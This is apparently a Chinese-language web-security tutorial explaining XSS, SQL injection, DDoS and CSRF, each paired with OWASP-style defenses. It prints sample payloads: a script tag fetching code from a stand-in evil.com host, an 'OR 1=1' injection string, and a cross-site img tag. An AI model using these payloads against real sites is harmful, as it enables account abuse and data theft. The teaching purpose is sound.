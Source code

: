 搞 Web 开发离不开安全这个话题，确保网站或者网页应用的安全性，是每个开发人员都应该了解的事。本篇主要简单介绍在 Web 领域几种常见的攻击手段。

## 1. Cross Site Script（XSS， 跨站脚本攻击)

首先插播一句，为毛叫 XSS，缩写明显是 CSS 啊？没错，为了防止与我们熟悉的 CSS（Cascading Style Sheets）混淆，所以干脆更名为 XSS。

那 XSS 是什么呢？一言蔽之，XSS 就是攻击者在 Web 页面中插入恶意脚本，当用户浏览页面时，促使脚本执行，从而达到攻击目的。XSS 的特点就是想尽一切办法在目标网站上执行第三方脚本。

![](http://i.imgur.com/7lWrgbX.png)

( 图片来源：[XSS Tutorial](https://hackertarget.com/xss-tutorial/) )

举个例子。原有的网站有个将数据库中的数据显示到页面的上功能，`document.write("data from server")`。但如果服务器没有验证数据类型，直接接受任何数据时，攻击者可以会将 `<script src='http:bad-script.js'></scirpt>` 当做一个数据写入数据库。当其他用户请求这个数据时，网站原有的脚本就会执行 `document.write("<script src='http://www.evil.com/bad-script.js'></scirpt>")`，这样，便会执行 `bad-script.js`。如果攻击者在这段第三方的脚本中写入恶意脚本，那么普通用户便会受到攻击。

XSS 主要有三种类型：

- 存储型 XSS： 注入的脚本永久的存在于目标服务器上，每当受害者向服务器请求此数据时就会重新唤醒攻击脚本；
- 反射型 XSS： 当用受害者被引诱点击一个恶意链接，提交一个伪造的表单，恶意代码便会和正常返回数据一起作为响应发送到受害者的浏览器，从而骗过了浏览器，使之误以为恶意脚本来自于可信的服务器，以至于让恶意脚本得以执行。

  ![](http://i.imgur.com/ineKGTP.gif)    

  （ 图片来源： [Cross-Site Scripting (XSS)](http://hwang.cisdept.cpp.edu/swanew/Code.aspx?m=XSS) ）

- DOM 型 XSS： 有点类似于存储型 XSS，但存储型 XSS 是将恶意脚本作为数据存储在服务器中，每个调用数据的用户都会受到攻击。但 DOM 型 XSS 则是一个本地的行为，更多是本地更新 DOM 时导致了恶意脚本执行。

那么如何防御 XSS 攻击呢？

- 从客户端和服务器端双重验证所有的输入数据，这一般能阻挡大部分注入的脚本
- 对所有的数据进行适当的编码
- 设置 HTTP Header： "X-XSS-Protection: 1"


## 2. SQL Injection （SQL 注入）

所谓 SQL 注入，就是通过客户端的输入把 SQL 命令注入到一个应用的数据库中，从而得以执行恶意 SQL 语句。

先看个例子。

``` sql
uname = request.POST['username']
password = request.POST['password']

sql = "SELECT all FROM users WHERE username='" + uname + "' AND password='" + password + "'"

database.execute(sql)
```

上面这段程序直接将客户端传过来的数据写入到数据库。试想一下，如果用户传入的 `password` 值是： "password’ OR 1=1"，那么 sql 语句便会变成：

```
sql = "SELECT all FROM users WHERE username='username' AND password='password' OR 1=1"
```

那么，这句 sql 无论 `username` 和 `password` 是什么都会执行，从而将所有用户的信息取出来。

那么怎么预防 sql 的问题呢？

想要提出解决方案，先看看 sql 注入得以施行的因素：

- 网页应用使用 SQL 来控制数据库
- 用户传入的数据直接被写入数据库

根据 [OWASP](https://en.wikipedia.org/wiki/OWASP)，下面看看具体的预防措施。

- Prepared Statements (with Parameterized Queries)： 参数化的查询语句可以强制应用开发者首先定义所有的 sql 代码，之后再将每个参数传递给查询语句
- Stored Procedures： 使用语言自带的存储程序，而不是自己直接操纵数据库
- White List Input Validation： 验证用户的输入
- Escaping All User Supplied Input： 对用户提供的所有的输入都进行编码

## 3. Distributed Denial of Service （DDoS， 分布式拒绝服务）

DoS 攻击就是通过大量恶意流量占用带宽和计算资源以达到瘫痪对方网络的目的。

举个简单的例子，老郑家面馆生意红火，突然有一天一群小混混进了点，霸占了座位，只闲聊不点菜，结果坐在店里的人不吃面，想吃面的人进不来，导致老郑无法向正常客户服务。

而 DDoS 攻击就是将多个计算机联合起来一同向目标发起攻击，从而成倍地提高拒绝服务攻击的威力。

![](http://i.imgur.com/3LQAriN.png)

（图片来源于： [DDoSCoin - An Incentive to Launch DDoS Attacks?](http://www.bleepingcomputer.com/news/security/ddoscoin-an-incentive-to-launch-ddos-attacks/)）

一般 DDoS 攻击有两个目的：

- 敲诈勒索，逼你花钱买平安
- 打击竞争对手

在技术角度上，DDoS攻击可以针对网络通讯协议的各层，手段大致有：TCP类的SYN Flood、ACK Flood，UDP类的Fraggle、Trinoo，DNS Query Flood，ICMP Flood，Slowloris类、各种社工方式等等，这些技术这里不做详细解释。但是一般会根据攻击目标的情况，针对性的把技术手法混合，以达到最低的成本最难防御的目的，并且可以进行合理的节奏控制，以及隐藏保护攻击资源。

阿里巴巴的安全团队在实战中发现，DDoS 防御产品的核心是检测技术和清洗技术。检测技术就是检测网站是否正在遭受 DDoS 攻击，而清洗技术就是清洗掉异常流量。而检测技术的核心在于对业务深刻的理解，才能快速精确判断出是否真的发生了 DDoS 攻击。清洗技术对检测来讲，不同的业务场景下要求的粒度不一样。

## 4. Cross Site Request Forgery (CSRF， 跨站请求伪造)

CSRF和浏览器的同源策略是密切相关的，在引入CSRF之前有必要先介绍一下同源策略。

同协议，同域名，同端口即视为同源，一个源内的脚本只具有本源的权限，不能访问其他源内的资源，这就是同源策略。对于网络请求而言，同源策略区别对待请求的发送和接收，允许源A向源B发送请求，但是禁止源A从源B接收信息。
安全性和方便性是总是成反比的，设想把静态资源和动态服务都放到一台服务器上，小网站或许还行，大网站是撑不住的。因此现代浏览器选择性地为同源策略开了一些“后门”，比如script标签、img标签都可以获取其他源的资源，浏览器降低了一些安全性，大大提升了网站布置的灵活性。

然而，就是同源策略的这个“后门”，给了CSRF以可乘之机。因为script标签的src也可能指向一个动态服务。
CSRF的定义是**从网站信任的用户那里发起未被授权的请求**。以知乎为栗子，假设知乎的api设计的比较烂，使用一个GET请求就能给id为49713956的问题点赞
     `https://www.zhihu.com/answer/49713956/vote-up`
恶意网站www.attacker.com利用了这个漏洞，在自己的页面上插入了一个跨域的img标签，
     `<img src="https://www.zhihu.com/answer/49713956/vote-up">`
又假设一个用户已经在知乎上登录，在他访问attacker.com的时候，就会发起一个点赞的请求。由于同源策略存在“后门”，浏览器会认为这个请求是合法的，所以发送请求时会带上用户的cookie。恶意网站就可以利用这个漏洞刷排名。

CSRF的攻击方式不限于GET请求，也可以发出POST请求进行攻击，比如在攻击者的网站上创建一个带有隐藏字段的表单，然后利用javascript提交表单到知乎。另外CSRF还有一种特殊形式，也就是Login CSRF，攻击者使用自己的账号密码在用户的浏览器登录。比如登陆了google账号，之后用户的搜索记录就会保存在攻击者的账号上。

那怎么预防 CSRF 攻击呢？[OWASP](https://en.wikipedia.org/wiki/OWASP) 推荐了两种检查方式来作为防御手段。

- 检查标准头部，确认请求是否同源： 检查 source origin 和 target origin，然后比较两个值是否匹配
- 检查 CSRF Token： 主要有四种推荐的方式
  - Synchronizer Tokens： 在表单里隐藏一个随机变化的 token，每当用户提交表单时，将这个 token 提交到后台进行验证，如果验证通过则可以继续执行操作。这种情况有效的主要原因是网站 B 拿不到网站 A 表单里的 token;
  - Double Cookie Defense： 当向服务器发出请求时，生成一个随机值，将这个随机值既放在 cookie 中，也放在请求的参数中，服务器同时验证这两个值是否匹配；
  - Encrypted Token Pattern： 对 token 进行加密
  - Custom Header： 使用自定义请求头部，这个方式依赖于同源策略。其中最适合的自定义头部便是： "X-Requested-With: XMLHttpRequest"



参考：

1. [Cross-site scripting -- MDN](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)
2. [XSS Tutorial](https://hackertarget.com/xss-tutorial/)
3. 微信公众号【给产品经理讲技术】 -- Web安全之CSRF攻击
4. [Cross-Site Request Forgery (CSRF) Prevention Cheat Sheet](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet)
5. [SQL Injection (SQLi)](http://www.acunetix.com/websitesecurity/sql-injection/)
6. [SQL Injection](https://www.owasp.org/index.php/SQL_Injection)
7. [SQL Injection Prevention Cheat Sheet](https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet)
8. [DDoS，并没有想象中那么可怕](http://mp.weixin.qq.com/s?src=3&timestamp=1474965332&ver=1&signature=6ul**cPZ8ItdVuKUYDetdNVAyXa850UO7rhk8JBc5hv-SCsyHbogXnwcexXxhdLfsKw6g-mObWpS918kuWsPPCqR5vpbf2uC-2pesI79kGz3x1V9-*GmKGoC1IIodcTq9w8Z8ffmnSoxO6vw6d8IOQ==)
9. [互联网黑市分析：DDoS 启示录](http://mp.weixin.qq.com/s?src=3&timestamp=1474965332&ver=1&signature=ZK3-GqR3AKnum58MPSRUUtuDpZ5ykn8WLvTgI4sddP5Rtga8QKS7fwWm9Yz7PUki0I0V5ZhJijD2xbnh2oidcZ6FGHa94xV9jmWV6EdLEfHI1ol3KRXqlL9fr-aU1ZWSHuCB8b7896MIziROxFbJOA==)
10. [DDoS，网络安全世界里的暗黑杀手](http://mp.weixin.qq.com/s?src=3&timestamp=1475024663&ver=1&signature=rI*ApZSTzdk20BrHyMgaF9eKgT77oadaMtoePyV-BXLh06DIGknOaNgwXcDbVe-zgDhG2kva33aPeaiSNkVTye3IEUXM7*55l5JNjWXo7VhMS7TQJfEkoHEBwixtivlwRuI2TX117I-YIUxCDY7KlA==)
